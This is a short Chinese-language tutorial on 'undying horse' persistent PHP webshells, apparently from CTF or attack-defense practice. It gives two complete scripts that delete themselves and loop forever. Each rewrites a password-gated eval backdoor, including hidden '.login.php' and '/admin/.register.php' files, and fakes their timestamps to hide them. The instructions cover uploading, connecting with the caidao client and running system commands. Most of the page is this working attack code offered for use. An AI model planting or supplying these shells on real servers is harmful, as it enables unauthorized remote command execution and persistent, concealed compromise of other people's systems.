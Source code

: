 ## 不死马

不死马示例：

```
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = 'shell.php';
$code = '<?php if(md5($_POST["passwd"])=="6daf17e539bf44591fad8c81b4a293d7"){@eval($_REQUEST['cmd']);} ?>';
while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2018-12-01 09:10:12" shell2.php');
    usleep(5000);
}
?>

#passwd=y0range857
#POST传参：passwd=y0range857&a=system('ls');
```

将这个文件上传到服务器，然后进行访问，会在该路径下一直生成一个名字为shell2.php的shell文件，然后使用caidao输入http://xxx/shell2.php?pass=pass的路径，密码为a就可以链接一句话，由于pass是md5加密很难被破解也可以做到隐蔽,md5值可以随意定义。

写入shell， at.php内容

```
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.login.php';
$file1 = '/admin/.register.php'; 
$code = '<?php if(md5($_GET["passwd"])=="6daf17e539bf44591fad8c81b4a293d7"){@eval($_REQUEST["at"]);} ?>';
while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2018-12-01 09:10:12" .login.php');
    file_put_contents($file1,$code);
    system('touch -m -d "2018-12-01 09:10:12" /admin/.register.php');
    usleep(5000);
}
?>
```

浏览器访问at.php，会生成不死马at2.php

```
url/upload/at.php
```

再传入，执行命令，getshell
